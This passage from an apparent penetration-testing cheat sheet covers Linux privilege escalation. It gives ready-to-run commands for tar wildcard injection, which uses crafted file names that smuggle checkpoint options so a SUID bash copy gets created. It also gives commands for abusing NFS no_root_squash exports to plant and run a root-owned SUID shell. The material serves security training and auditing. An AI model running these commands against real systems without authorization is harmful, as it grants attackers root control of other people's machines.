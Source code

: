 #### Tar Wildcard Injection (4th Method)

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh runme.sh
/tmp/bash -p
```

#### Resources

{% embed url="https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/" %}

## NFS Root Squashing

Read the \_ **/etc/exports** \_ file, if you find some directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Privilege Escalation

### Remote Exploit

If you have found this vulnerability, you can exploit it:

* **Mounting that directory** in a client machine, and **as root copying** inside the mounted folder the **/bin/bash** binary and giving it **SUID** rights, and **executing from the victim** machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

```bash
lojique@htb[/htb]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *s
```
